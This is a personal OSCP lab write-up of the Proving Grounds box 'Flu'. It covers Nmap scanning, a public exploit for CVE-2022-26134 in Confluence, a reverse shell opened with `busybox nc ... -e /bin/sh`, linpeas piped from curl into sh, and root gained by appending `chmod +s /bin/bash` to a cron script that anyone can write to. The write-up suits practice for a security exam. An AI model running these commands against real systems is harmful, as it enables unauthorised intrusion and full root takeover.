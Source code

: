 ```yaml
---
Date: 2024-10-13
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: In progress
IP: 192.168.117.41
Writeup: https://medium.com/@basha5969/flu-proving-grounds-5325abd4a4f2
---
```

# Flu
This is the first box I can confidently say I did ***NOT*** look at a walkthrough for any help on! I've included one in the details above, but it remained as a background tab the entire way through this - massive confidence boost to know I can do this without needing to follow someone else's footsteps!

Seeing Confluence when I checked the html port was a big confidence booster too, as I've worked with it a lot already and knew there were plenty of vulnerabilities and exploit available for older versions. Getting RCE was incredibly simple, and then it was simply a case of enumerating the target to find a privilege escalation vector. 

I'm building confidence with `pspy` too, although I know I need to keep it handier... and to run it with the timeout command (`timeout 20 ./pspy`) so it doesn't break my shell! As soon as I ran it and saw the running script I knew that'd be the vector I needed, but there was still a lot of uncertainty until I realised it was running every 5 mins - waited a few mins before trying `/bin/bash -p` again, and got access!

# Resolution summary
- Ran Nmap to identify ports `22` & `8080`
- Visited http (`8090`) & identified `Confluence v7.13.6`
- Identified exploit for CVE-2022-26134 and ran against target for reverse shell
- Uploaded `pspy` and identified `log-backup.sh` being run regularly by `root`
- Added command to change `/bin/bash` SUID and waited for script to run
- Ran `/bin/bash -p` to become `root`
## Improved skills
- Linux Priv Escalation
## Used tools
- nmap
- python

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN Flu.nmap 192.168.117.41 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:79:64:84:da:12:97:23:77:8a:3a:60:20:96:ee:cf (ECDSA)
|_  256 dd:49:a3:89:d7:57:ca:92:f0:6c:fe:59:a6:24:cc:87 (ED25519)
8090/tcp open  opsmessaging?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 302 
|     Cache-Control: no-store
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     X-Confluence-Request-Time: 1728796841602
|     Set-Cookie: JSESSIONID=D518E2E9A0A5F7BFDA68A6A59D3D9A57; Path=/; HttpOnly
|     X-XSS-Protection: 1; mode=block
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     Content-Security-Policy: frame-ancestors 'self'
|     Location: http://localhost:8090/login.action?os_destination=%2Findex.action&permissionViolation=true
|     Content-Type: text/html;charset=UTF-8
|     Content-Length: 0
|     Date: Sun, 13 Oct 2024 05:20:41 GMT
|     Connection: close
|   HTTPOptions: 
|     HTTP/1.1 200 
|     MS-Author-Via: DAV
|     Content-Type: text/html;charset=UTF-8
|     Content-Length: 0
|     Date: Sun, 13 Oct 2024 05:20:41 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1924
|     Date: Sun, 13 Oct 2024 05:20:41 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in the HTTP protocol [RTSP&#47;1.00x0d0x0a0x0d0x0a...]</p><p><b>Description</b> The server cannot or will not process the request due to something that is perceived to be a client error (e.g., malformed request syntax, invalid
1 service unrecognized despite returning data.
```

---
# Enumeration
## Port 22 - SSH (OpenSSH 7.9p1)
No enumeration conducted
## Port 8090 - HTTP (Confluence)
- Navigated `http://192.168.117.41:8090` and identified `Confluence 7.13.6`
![[Cybersecurity-Resources/images/Pasted image 20241013155309.png]]
	- Potentially vulnerable to CVE-2022-26134

---
# Exploitation
## CVE-2022-26314 - OGNL Injection
- Used `searchsploit` to identify exploit `50952.py` for CVE-2022026134. Copied exploit to local host and ran `python3 50952.py -u 192.168.117.41:8090 -c id` to test output
![[Cybersecurity-Resources/images/Pasted image 20241013160053.png]]
- Ran exploit again to establish reverse shell `python3 50952.py -u 192.168.117.41:8090 -c 'busybox nc 192.168.45.250 4444 -e /bin/sh'`
![[Cybersecurity-Resources/images/Pasted image 20241013161411.png]]
- Ran `find / -name local.txt -type f 2>/dev/null` to find `local.txt` then ran `cat /home/confluence/local.txt` to print `edf698cdc0831e7a2fd857ca3ad2191a`
![[Cybersecurity-Resources/images/Pasted image 20241013161607.png]]
---
# Lateral Movement to user
## Local Enumeration
- Ran `cat /etc/passwd` to identify any other users
![[Cybersecurity-Resources/images/Pasted image 20241013161842.png]]
- Downloaded & ran `suid3num.py` to enumerate useful SUID binaries - none found
![[Cybersecurity-Resources/images/Pasted image 20241013162422.png]]
![[Cybersecurity-Resources/images/Pasted image 20241013162446.png]]
- Downloaded & ran `linpeas.sh` with `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh` - nothing obviously useful
![[Cybersecurity-Resources/images/Pasted image 20241013162640.png]]
- Ran `cat /home/confluence/.bash_history` to check bash history
![[Cybersecurity-Resources/images/Pasted image 20241013164109.png]]
---
# Privilege Escalation
## Local Enumeration
- Downloaded & ran `pspy32` - identified `/opt/log-backup.sh` being run regularly by `root`
![[Cybersecurity-Resources/images/Pasted image 20241013165029.png]]
- Ran `ls -lah /opt/log-backup.sh` to check script privileges
![[Cybersecurity-Resources/images/Pasted image 20241013165554.png]]
## Privilege Escalation vector
- Ran `echo "chmod +s /bin/bash" >> /opt/log-backup.sh` & confirmed written to `/opt/log-backup.sh`
![[Cybersecurity-Resources/images/Pasted image 20241013170214.png]]
- Waited several minutes for script, then ran `/bin/bash -p` for privileged shell as `root`
![[Cybersecurity-Resources/images/Pasted image 20241013170318.png]]
- Ran `cat /root/proof.txt` to print `7b793953252334bfadee03b30874aee2`
![[Cybersecurity-Resources/images/Pasted image 20241013170420.png]]
---
# Trophy & Loot
`local.txt` = `edf698cdc0831e7a2fd857ca3ad2191a`
`root.txt` = `7b793953252334bfadee03b30874aee2`
